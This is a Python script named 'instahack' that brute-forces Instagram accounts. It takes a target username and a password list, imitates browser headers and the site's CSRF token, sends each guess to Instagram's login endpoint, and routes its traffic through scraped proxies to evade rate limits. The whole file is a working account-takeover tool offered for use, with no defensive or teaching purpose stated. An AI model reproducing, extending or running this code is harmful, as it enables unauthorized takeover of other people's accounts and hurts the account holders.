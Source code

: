 # instahack
import argparse
import requests
import os
import codecs

import socket
import socks

import asyncio
from proxybroker import Broker

#args parser
parser = argparse.ArgumentParser()
parser.add_argument('username', help='Instagram username of the user you want to attack')
parser.add_argument('passwords_file', help='A passwords file for the software')
args = parser.parse_args()
if not os.path.exists(args.passwords_file):
	exit('[*] Sorry, can\'t find file named "%s"' % args.passwords_file)

#help functions
#remove empty lines and duplicates 
def cleanList(items):
	newList = []
	for x in items:
		if not (x == None or x == ''):
			if not x in newList:
				newList.append(x)
	return newList

#main class - Instagram bruteforce
class Instabrute():
	def __init__(self, username, passwords):
		self.username = username
		if not self.userExists():
			exit('[*] Can\'t find user named "%s"' % self.username)

		self.passwords = passwords

		self.attempts = 0 

	def userExists(self):
		r = requests.get('https://www.instagram.com/%s/?__a=1' % self.username) 
		if r.status_code == 404:
			return False
		elif r.status_code == 200:
			return True
		else:
			return False

	def _next(self):
		#add 1 attempt to the counter
		self.attempts += 1
		#remove the first password (the current)
		self.passwords.pop(0)
		#try the next password
		self.login()

	def login(self):
		sess = requests.Session()

		#requests headers and cookies
		sess.cookies.update ({'sessionid' : '', 'mid' : '', 'ig_pr' : '1', 'ig_vw' : '1920', 'csrftoken' : '',  's_network' : '', 'ds_user_id' : ''})
		sess.headers.update({
			'user-agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/64.0.3282.167 Safari/537.36',
			'x-instagram-ajax':'1',
			'X-Requested-With': 'XMLHttpRequest',
			'origin': 'https://www.instagram.com',
			'ContentType' : 'application/x-www-form-urlencoded',
			'Connection': 'keep-alive',
			'Accept': '*/*',
			'Referer': 'https://www.instagram.com',
			'authority': 'www.instagram.com',
			'Host' : 'www.instagram.com',
			'Accept-Language' : 'en-US;q=0.6,en;q=0.4',
			'Accept-Encoding' : 'gzip, deflate'
		})

		#update csrf token for the first time
		sess.headers.update({'X-CSRFToken' : sess.get('https://www.instagram.com/').cookies.get_dict()['csrftoken']})

		#try to login
		r = sess.post('https://www.instagram.com/accounts/login/ajax/', data={
			'username':self.username, 
			'password':self.passwords[0]
		}, allow_redirects=True)

		if 'authenticated' in r.text:
			if r.json()['authenticated']:
				exit('[%s] Yay, the password is "%s"' % (str(self.attempts+1), self.passwords[0]))
				#update csrf token after login try (if you want to keep the session)
				#sess.headers.update({'X-CSRFToken' : r.cookies.get_dict()['csrftoken']})
			else:
				print ('[%s] Can\'t login with "%s"' % (str(self.attempts+1), self.passwords[0]))
				#try the next password
				self._next()
		else:
			if 'message' in r.text:
				if r.json()['message'] == 'Please wait a few minutes before you try again.':
					pass #Do you want to wait or use proxy?
				elif r.json()['message'] == 'checkpoint_required':
					exit('[%s] Yay, the password is "%s"' % (str(self.attempts+1), self.passwords[0]))
				else:
					print ('[MESSAGE] %s' % r.json()['message'])
			else:
				print (r.text)

#find proxy
async def proxything(proxies):
	while True:
		proxy = await proxies.get()
		if proxy is None: break
		print('[*] Found proxy: %s' % proxy)
		socks.set_default_proxy(socks.HTTP, proxy.host, proxy.port)
		socket.socket = socks.socksocket
proxies = asyncio.Queue()
asyncio.get_event_loop().run_until_complete(asyncio.gather(Broker(proxies).find(types=['HTTPS', 'HTTP'], limit=1), proxything(proxies)))

#main action
with codecs.open(args.passwords_file, 'r', 'utf-8') as file:
	passwords = file.read().splitlines()
	if len(passwords) < 1:
		exit('[*] The file is empty')
	else:
		passwords = cleanList(passwords)
		print ('[*] %s passwords loaded successfully' % len(passwords))

bruteforce = Instabrute(args.username, passwords)
bruteforce.login()
